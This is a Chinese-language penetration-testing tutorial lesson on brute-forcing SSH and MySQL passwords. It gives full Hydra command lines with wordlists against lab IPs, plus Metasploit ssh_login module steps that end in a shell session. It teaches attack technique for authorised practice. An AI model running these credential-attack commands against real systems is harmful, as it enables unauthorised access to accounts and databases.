



# 网络安全就业推荐 P49：第13天：SSH与MySQL密码破解 🔐





在本节课中，我们将学习两种重要的密码破解技术：SSH远程登录密码破解和MySQL数据库密码破解。我们将介绍两款强大的工具——Hydra（九头蛇）和Metasploit框架中的扫描模块，并通过实际操作演示如何利用它们进行安全测试。


---




## 工具介绍：Hydra与Metasploit


上一节我们提到了信息收集和端口扫描，本节中我们来看看如何利用收集到的信息进行密码破解。首先，我们将介绍两款核心工具。


Hydra（九头蛇）是一款开源的暴力破解工具，支持对FTP、MySQL、SSH等多种服务进行密码破解。该工具已内置在Kali Linux系统中，可以直接使用。





Metasploit是一个功能强大的渗透测试框架，内置了众多模块，其中包含用于扫描和破解的模块（如`auxiliary/scanner/ssh/ssh_login`）。我们将在后续课程中深入讲解这个框架。


以下是Hydra工具的常用参数介绍：
*   **`-l`**： 指定单个用户名。
*   **`-L`**： 指定用户名字典文件。
*   **`-p`**： 指定单个密码。
*   **`-P`**： 指定密码字典文件。
*   **`-t`**： 指定任务线程数。
*   **`-f`**： 在找到第一对正确的用户名和密码后停止。
*   **`-M`**： 指定目标主机列表文件（用于批量破解）。


---


## 实战一：使用Hydra破解SSH密码


了解了工具的基本参数后，本节我们来看看如何具体操作。假设通过信息收集（如Nmap扫描），我们发现目标主机 `192.168.83.33` 开放了22端口（SSH服务默认端口）。

我们可以使用Hydra对其进行密码爆破。Kali Linux系统内置了字典文件，通常位于 `/usr/share/wordlists/` 目录下。


以下是破解SSH密码的命令示例：
```bash
hydra -L /root/pass/username.txt -P /root/pass/password.txt 192.168.83.33 ssh -f
```
*   `-L /root/pass/username.txt`： 指定用户名字典路径。
*   `-P /root/pass/password.txt`： 指定密码字典路径。
*   `192.168.83.33 ssh`： 指定目标IP和服务类型。
*   `-f`： 成功破解一对后即停止。

执行命令后，如果破解成功，Hydra会输出正确的用户名和密码（例如：`root:password123`）。随后，我们可以使用该凭证进行SSH登录验证：
```bash
ssh root@192.168.83.33
```


---


## 实战二：使用Hydra破解MySQL密码


接下来，我们看看如何破解MySQL数据库密码。假设我们发现目标主机 `192.168.83.29` 开放了3306端口（MySQL服务默认端口）。


破解MySQL密码的命令与SSH类似，只需更改服务类型：
```bash
hydra -L /root/pass/username.txt -P /root/pass/password.txt 192.168.83.29 mysql -f
```
破解成功后，会得到类似 `test:root` 的用户名和密码。我们可以使用MySQL客户端工具（如`mysql`命令或图形化工具）进行连接验证：
```bash
mysql -h 192.168.83.29 -u test -p
```
输入密码后，即可进入数据库进行操作。


---


## 进阶：使用Metasploit框架进行破解


除了Hydra，我们还可以使用更强大的Metasploit框架进行密码破解。本节中我们以破解SSH密码为例。

首先，启动Metasploit控制台：
```bash
msfconsole
```
等待框架初始化完成后，搜索并选用SSH登录爆破模块：
```bash
search ssh_login
use auxiliary/scanner/ssh/ssh_login
```
使用`show options`命令查看需要设置的参数。然后，设置目标主机、用户名字典和密码字典：
```bash
set RHOSTS 192.168.83.33
set USER_FILE /root/pass/username.txt
set PASS_FILE /root/pass/password.txt
```
最后，运行模块开始破解：
```bash
run
```
如果破解成功，模块可能会返回一个Shell会话。我们可以使用`sessions`命令查看会话列表，并使用`sessions -i [会话ID]`命令与之交互，从而获得一个Metasploit的Meterpreter Shell，便于后续的深入利用。

---


## 总结与回顾

本节课中我们一起学习了SSH和MySQL密码的破解技术。我们掌握了两款主要工具的使用方法：
1.  **Hydra（九头蛇）**： 一款快速、灵活的暴力破解工具，适用于多种网络服务。
2.  **Metasploit框架**： 一个集成的渗透测试平台，其扫描模块功能强大，并能与后续的利用模块衔接。


核心操作流程可以归纳为：**信息收集（发现开放端口） -> 选择工具和字典 -> 执行破解命令 -> 验证并使用获取的凭证**。请务必在授权许可的环境中进行练习，严格遵守法律法规。